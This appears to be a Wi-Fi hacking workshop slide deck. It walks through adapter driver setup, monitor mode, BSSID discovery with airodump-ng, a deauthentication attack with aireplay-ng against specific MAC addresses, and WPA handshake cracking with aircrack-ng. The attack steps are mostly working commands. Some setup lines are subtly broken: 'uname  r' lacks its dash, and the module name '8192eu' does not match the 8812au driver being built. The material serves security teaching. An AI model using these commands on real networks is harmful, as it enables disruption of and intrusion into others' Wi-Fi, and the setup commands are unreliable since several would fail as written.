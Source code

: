 # Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

[https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

Git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

Cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">s</span>  <span style="color:#000000">udo airodump\-ng \-c 11 wlan0</span>

### Discovering devices

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

### Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

